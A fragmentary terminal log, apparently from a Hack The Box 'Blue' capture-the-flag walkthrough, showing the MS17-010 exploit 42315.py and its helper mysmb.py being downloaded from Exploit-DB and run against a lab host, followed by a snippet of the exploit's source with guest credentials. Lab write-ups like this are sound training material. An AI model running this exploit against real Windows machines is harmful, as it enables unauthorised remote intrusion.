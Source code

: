 Copied to: /root/HTB/BLUE/42315.py





root@kali:~/HTB/BLUE# wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py
--2021-04-28 20:18:16--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py
Resolviendo github.com (github.com)... 140.82.114.3
Conectando con github.com (github.com)[140.82.114.3]:443... conectado.
Petición HTTP enviada, esperando respuesta... 302 Found
Localización: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py [siguiendo]
--2021-04-28 20:18:16--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.109.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 16669 (16K) [text/plain]
Grabando a: “mysmb.py”

mysmb.py                              100%[======================================================================>]  16,28K  --.-KB/s    en 0s      

2021-04-28 20:18:17 (32,2 MB/s) - “mysmb.py” guardado [16669/16669]

root@kali:~/HTB/BLUE# ls -la
total 88
drwxr-xr-x 3 root root  4096 abr 28 20:17 .
drwxr-xr-x 3 root root  4096 abr 28 19:22 ..
-rwxr-xr-x 1 root root 41968 abr 28 20:15 42315.py
-rw-r--r-- 1 root root 16669 abr 28 20:18 mysmb.py
drwxr-xr-x 2 root root  4096 jul 21  2017 smbFolder
-rw-r--r-- 1 root root     5 abr 28 19:50 smb_text.txt
-rw-r--r-- 1 root root  1024 abr 28 19:24 .writeup.txt.swp
root@kali:~/HTB/BLUE# 




oot@kali:~/HTB/BLUE# python 42315.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
root@kali:~/HTB/BLUE# 



'''

USERNAME = 'guest'
PASSWORD = ''

'''
A transaction with empty setup:
- it is allocated from paged pool (same as other transaction types) on Windows 7 and later
- it is allocated from private heap (RtlAllocateHeap()) with no on use it on Windows Vista and earlier
- no lookaside or caching method for allocating it
